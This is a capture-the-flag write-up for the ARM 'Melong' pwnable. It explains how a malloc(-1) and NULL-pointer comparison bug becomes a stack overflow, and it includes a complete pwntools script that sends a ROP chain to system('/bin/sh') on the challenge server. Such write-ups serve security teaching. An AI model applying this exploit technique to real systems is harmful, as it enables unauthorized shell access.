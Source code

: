 ## Melong - Pwnable Challenge

Melong is a very simple 32-bit ARM binary that has a few menus for the physical training.

```
1. Check your bmi
2. Exercise
3. Register personal training
4. Write daily record
5. Have some health menu
6. Out of the gym
```

The first menu, `check`, takes some input that are pretty meaningless but calls `get_result` function, which does not initialize `exc2` pointer the first time. With that, we trigger the third menu, `PT`, which checks if the newly allocated heap pointer (with a fully controlled size) is the same as `exc2` pointer.

```c
size_t PT()
{
  size_t v0; // r3
  size_t size; // [sp+4h] [bp-10h]
  void *ptr; // [sp+8h] [bp-Ch]
  int i; // [sp+Ch] [bp-8h]

  puts("Let's start personal training");
  puts("How long do you want to take personal training?");
  _isoc99_scanf("%d", &size);
  ptr = malloc(size);
  if ( ptr == (void *)exc2 )
  {
    puts("Okay, start to exercise!");
    for ( i = 0; i < (signed int)size; ++i )
    {
      puts("you are getting healthy..");
      sleep(1u);
    }
    free(ptr);
    v0 = size;
  }
  else
  {
    puts("Check your bmi again!!");
    free(ptr);
    v0 = 0;
  }
  return v0;
}
```

If we pass in -1 as a size, malloc will fail and `ptr` will be NULL. Since we haven't initialized `exc2`, it's also NULL. So the comparison becomes true. Then, the `size` is casted as "signed int", so the for loop just exits. `free`ing the NULL pointer has no effect. Then, the size we put in gets returned as an unsigned int.

Finally, we use the fourth menu, `write_diary`, to read into a stack buffer. We control the size from above (0xFFFFFFFF), so it becomes a trivial buffer overflow from here. Once we put our ROP chain on the stack, we use the last menu to return.

We exploit it twice to get the libc address leak, followed by the `system("/bin/sh")`.



```python
from pwn import *
import time

context.update(arch='arm')
r = remote('ch41l3ng3s.codegate.kr', 1199)

puts = 0xf66e4770
libc = puts - 0x5e770
system = libc + 0x38634
binsh = libc + 0x12121c

pop_r0 = p32(0x11BBC)

# For leak
#rop  = pop_r0
#rop += p32(0x2301C) # puts_ptr in GOT
#rop += p32(0x104A8) # puts
#rop += p32(0x104F0) # abort

# For shell
rop  = pop_r0
rop += p32(binsh)
rop += p32(system)

r.sendline('1')
r.sendline('0')
r.sendline('0')
r.sendline('3')
r.sendline('-1')
r.sendline('4')
r.sendline('A' * 84 + rop)
pause()

r.sendline('6')

r.readuntil('See you again :)\n')
#puts = u32(r.read(4))
r.interactive()
```


